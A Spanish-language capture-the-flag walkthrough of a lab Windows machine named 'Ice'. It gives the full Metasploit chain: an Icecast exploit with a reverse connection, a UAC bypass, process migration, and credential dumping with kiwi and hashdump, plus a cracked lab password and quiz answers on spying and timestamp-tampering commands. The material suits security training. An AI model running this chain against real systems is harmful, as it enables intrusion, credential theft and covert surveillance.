 # Ice

## nmap

Después de esperar unos minutos a que inicie la máquina, escaneamos los puertos.

```
nmap -A -T4 -p- 10.10.39.57
```

![Escaneo de puertos](images/Pasted%20image%2020250221122600.png)

Y estos son los resultados del script:

![Resultados del script](images/Pasted%20image%2020250221122646.png)

El puerto 8000 es el de `Icecast` y el hostname es `DARK-PC`.

```
sudo nmap -sS 10.10.39.57
```

![Escaneo de puertos con sudo](images/Pasted%20image%2020250221123829.png)

Verificamos si hay vulnerabilidades mediante el script de `nmap`. Tardará unos minutos en completarse.

```
nmap -T4 -A -p- --script=vuln 10.10.39.57 -vv
```

Se ha detectado una vulnerabilidad `ms17-010`cuyo CVE es `CVE-2017-0143` además de `CVE-2007-6750`-

![Vulnerabilidad MS17-010](images/Pasted%20image%2020250221125732.png)

![Vulnerabilidades detectadas](images/Pasted%20image%2020250221125321.png)

Buscamos la vulnerabilidad de `Icecast` también.

https://www.cvedetails.com/cve/CVE-2004-1561/
## Obtener acceso

Abrimos la consola de metasploitable:

```
msfconsole
```

Buscamos el exploit de `Icecast`:

```
search icecast
```

Cargamos el exploit:

```
use 0
```
![Cargando exploit de Icecast](images/Pasted%20image%2020250221130420.png)

Configuramos las opciones.


```
set RHOST 10.10.39.57
set LHOST 10.8.3.33
```

![Configurando opciones del exploit](images/Pasted%20image%2020250221130610.png)

Ejecutamos el exploit:

```
run
```

![Ejecutando el exploit](images/Pasted%20image%2020250221130948.png)

## Escalada de privilegios

Introducimos el siguiente comando para ver el server username:

```
getuid
```
![Obteniendo el User ID](images/Pasted%20image%2020250221131452.png)

Para ver la información del sistema:

```
sysinfo
```

![Información del sistema](images/Pasted%20image%2020250221131546.png)

Ahora que conocemos la arquitectura de los procesos, vamos a hacer un reconocimiento más avanzado de los mismos:

```
run post/multi/recon/local_exploit_suggester
```

![Ejecutando el exploit suggester](images/Pasted%20image%2020250221132008.png)

Ponemos el proceso en el background:

```
background
```

Usamos el siguiente exploit:

```
use exploit/windows/local/bypassuac_eventvwr
```
![Usando exploit bypassuac_eventvwr](images/Pasted%20image%2020250221132232.png)

Vemos las opciones y asignamos la sesión:

```
options
set session 2 
```

> Hay que asegurarse bien de qué sesión es con el comando `sessions`.

Iniciamos el exploit:

```
run
```

![Iniciando el exploit](images/Pasted%20image%2020250221132414.png)

Ahora lo ejecutamos con una interfaz disntinta:

```
set LHOST tun0
```

Ejecutamos el siguiente comando una vez obtenemos acceso:

```
getprivs
```

![Obteniendo privilegios](images/Pasted%20image%2020250221132709.png)

El permiso de `SeTakeOwnershipPrivilege`es el que permite obtener la propiedad de una archivo.

## Looting

Visualizamos los procesos del sistema con el comando `ps`:

![Procesos del sistema](images/Pasted%20image%2020250221133657.png)

Migramos el proceso con el siguiente comando:

```
migrate -N spoolsv.exe
```

![Migrando el proceso](images/Pasted%20image%2020250221133807.png)

Confirmamos que ahora somos NT Authority.

```
getuid
```

![Confirmando permisos NT Authority](images/Pasted%20image%2020250221133907.png)

Ahora que tenemos todos los permisos, vamos a usar el comando `kiwi`. Escribimos el comando `help` que muestra todas las funciones de la herramienta.

```
load kiwi
help
```
![Ayuda de Kiwi](images/Pasted%20image%2020250221134221.png)

![Funciones de Kiwi](images/Pasted%20image%2020250221134301.png)

Para obtener todos los credenciales usaremos el siguiente comando:

```
creds_all
```

![Obteniendo credenciales](images/Pasted%20image%2020250221134352.png)

También podemos usar `hashdump`y crackear los hashes.

![Ejecutando hashdump](images/Pasted%20image%2020250221134431.png)

En la siguient página podemos crackearlos.

https://crackstation.net/

Este es el de Dark:

```
7c4fe5eada682714a036e39378362bab
```

![Cracking el hash](images/Pasted%20image%2020250221134641.png)

La contraseña es `Password01!`.

## Post-Exploitation

- ¿Qué comando nos metire dumpear todas los hashes de las contraseñas del sistema?

**hashdump**


- ¿Qué comando nos permite ver el escritorio remoto del usuario en tiempo real?

**Screenshare**

- Si quisiéramos grabar desde un micrófono conectado al equipo, ¿qué comando nos lo permitiría?

**record_mic**

- Podemos modificar las marcas de tiempo de los archivos del sistema. ¿Qué comando nos permite hacerlo?

**timestomp**


- Mimikatz nos permite crear lo que se denomina un «ticket dorado», que nos permite autenticarnos en cualquier lugar con facilidad. ¿Qué comando nos permite hacer esto?

**golden_ticket_create**























